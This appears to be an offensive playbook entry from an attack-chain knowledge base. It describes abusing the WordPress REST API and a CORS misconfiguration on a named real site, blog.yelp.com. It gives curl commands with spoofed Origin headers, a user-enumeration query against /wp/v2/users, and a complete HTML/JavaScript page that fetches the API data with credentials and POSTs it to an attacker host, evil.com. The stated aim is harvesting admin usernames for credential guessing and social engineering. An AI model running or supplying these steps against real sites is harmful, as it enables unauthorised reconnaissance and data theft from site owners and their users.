

---
tags:
  - wordpress
  - cors-misconfiguration
  - information-disclosure
  - api-exposure
  - user-enumeration
type: attack_chain
tools: []
tactics:
  - '[[Reconnaissance]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-wordpress-rest-api-cors-bypass]]'
platforms:
  - Web
  - WordPress
complexity: medium
procedures:
  - '[[procedures/Access-WordPress-REST-API-with-Manipulated-Origin]]'
  - '[[procedures/Create-Malicious-HTML-for-CORS-Exploitation]]'
  - '[[procedures/Observe-and-Exfiltrate-Sensitive-Data]]'
step_count: 3
techniques:
  - '[[Client Configurations]]'
  - '[[Drive-by Compromise]]'
description: >-
  Multi-stage attack exploiting default WordPress REST API configurations and
  CORS misconfigurations to disclose sensitive site and user information without
  authentication.
skill_level: intermediate
impact_level: high
id: 9412f31e-7dab-4747-91e7-2bcd7e76d74d
created_at: '2025-12-14T17:29:36.427Z'
updated_at: '2025-12-14T17:29:36.427Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Client Configurations]]'
  - '[[Drive-by Compromise]]'
---
# WordPress REST API Information Disclosure via CORS Misconfiguration on Yelp Blog

## Overview

This attack chain targets the default configurations of the WordPress REST API on blog.yelp.com, where endpoints like /wp-json/ expose sensitive information such as admin usernames, site metadata, and user details without requiring authentication. By manipulating the Origin header in requests, attackers bypass CORS restrictions, allowing cross-origin data fetching. The chain culminates in exfiltration via a malicious webpage, enabling attackers to steal data for further targeted attacks like credential guessing or social engineering.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Firefox or Chrome for testing)
- Text editor for creating HTML files

### Target Environment

- WordPress-based website (e.g., blog.yelp.com)
- Publicly accessible /wp-json/ endpoint
- No authentication required for REST API

### Initial Access Requirements

- Internet access to the target
- Ability to host or simulate a malicious webpage (local or remote)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Access-WordPress-REST-API-with-Manipulated-Origin]]

**Objective**: Send a crafted GET request to the WordPress REST API endpoint to bypass CORS and retrieve initial sensitive data like site metadata and available routes.

**Instructions**: Use [[commands/curl-wordpress-rest-api-cors-bypass]] to simulate a cross-origin request by setting a manipulated Origin header:

```bash
curl -H "Origin: http://127.0.0.1:8080" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0" https://blog.yelp.com/wp-json/
```

**Expected Output**: JSON response with site details, including name, description, namespaces (e.g., /wp/v2/users), and routes indicating user enumeration endpoints.

**Success Indicators**:
- JSON response received without CORS errors
- Presence of /wp/v2/users route in the output, hinting at user data exposure

### Step 2: Execution
procedure: [[procedures/Create-Malicious-HTML-for-CORS-Exploitation]]

**Objective**: Create a malicious HTML page that uses JavaScript to fetch data from the API cross-origin, bypassing restrictions and preparing for exfiltration.

**Instructions**: Save the following HTML code to a file (e.g., exploit.html) and open it in a browser. The script sets withCredentials=true to handle potential cookies and sends data to an attacker-controlled server:

```html
<!DOCTYPE html>
<html>
<body>
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://blog.yelp.com/wp-json/', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function() {
    if (xhr.readyState == 4 && xhr.status == 200) {
      document.body.innerHTML += '<pre>' + xhr.responseText + '</pre>';
      // Exfiltrate to attacker server
      var exfil = new XMLHttpRequest();
      exfil.open('POST', 'http://evil.com/steal', true);
      exfil.send(xhr.responseText);
    }
  };
  xhr.send();
</script>
</body>
</html>
```

**Expected Output**: The page displays the fetched JSON data and sends it via POST to http://evil.com.

**Success Indicators**:
- Browser console shows no CORS blocking
- JSON data (e.g., user routes) appears on the page
- Network tab confirms POST to exfiltration endpoint

### Step 3: Collection
procedure: [[procedures/Observe-and-Exfiltrate-Sensitive-Data]]

**Objective**: Analyze the exposed data for admin usernames, user IDs, and site details, then exfiltrate for use in further attacks.

**Instructions**: Follow up on the API response by querying user endpoints if exposed, using the same curl command adapted for /wp/v2/users:

```bash
curl -H "Origin: http://127.0.0.1:8080" https://blog.yelp.com/wp-json/wp/v2/users
```

Monitor the malicious page's network traffic to confirm exfiltration.

**Expected Output**: JSON array with user objects, including slugs (usernames like 'admin'), IDs, and roles.

**Success Indicators**:
- Admin usernames (e.g., 'admin') disclosed
- Site details like URL and description leaked
- Data successfully POSTed to attacker server

## Attack Chain Summary

### Key Achievements

1. Bypassed CORS to access unauthenticated REST API data
2. Exposed admin usernames and user enumeration via /wp/v2/users
3. Enabled cross-site data theft through malicious webpages

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Client Configurations]] Gather Victim Identity Information
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Collection]] Collection

---
*Last updated: 2023-10-01*
